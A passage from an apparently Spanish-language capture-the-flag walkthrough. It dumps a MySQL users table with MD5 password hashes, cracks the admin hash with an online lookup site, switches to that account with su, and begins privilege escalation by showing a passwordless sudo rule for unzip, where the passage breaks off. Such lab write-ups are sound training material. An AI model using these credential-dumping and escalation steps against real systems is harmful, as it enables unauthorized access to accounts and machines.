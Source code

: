 Ahora vamos a ver que contiene dicha tabla mostrando toda la informacion.

```mysql
select * from usuarios;
```

Info:

```
+----+-----------+----------------------------------+
| id | usuario   | password                         |
+----+-----------+----------------------------------+
|  1 | alice     | 8bdffaa69d328c1d4ae3aeadc97de223 |
|  2 | bob       | d8578edf8458ce06fbc5bb76a58c5ca4 |
|  3 | charlie   | e99a18c428cb38d5f260853678922e03 |
|  4 | baluadmin | aa87ddc5b4c24406d26ddad771ef44b0 |
|  5 | diana     | e10adc3949ba59abbe56e057f20f883e |
+----+-----------+----------------------------------+
5 rows in set (0.000 sec)
```

Veremos que estamos viendo los `hashes` en formato `MD5`, pero el que nos interesa es el del usuario `baluadmin` que esta registrado en el sistema, por lo que vamos a decodificarlo en la siguiente pagina:

URL = [Decode Page MD5](https://10015.io/tools/md5-encrypt-decrypt)

Si lo decodificamos veremos lo siguiente:

```
baluadmin:aa87ddc5b4c24406d26ddad771ef44b0
```

Info:

```
baluadmin:estrella
```

Vamos a probarlas de esta forma en el servidor.

```shell
su baluadmin
```

Metemos como contraseña `estrella` y veremos que estamos dentro.

Info:

```
baluadmin@24eda0f49f6e:/home/steven$ whoami
baluadmin
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for baluadmin on 24eda0f49f6e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User baluadmin may run the following commands on 24eda0f49f6e:
    (ALL) NOPASSWD: /usr/bin/unzip
```
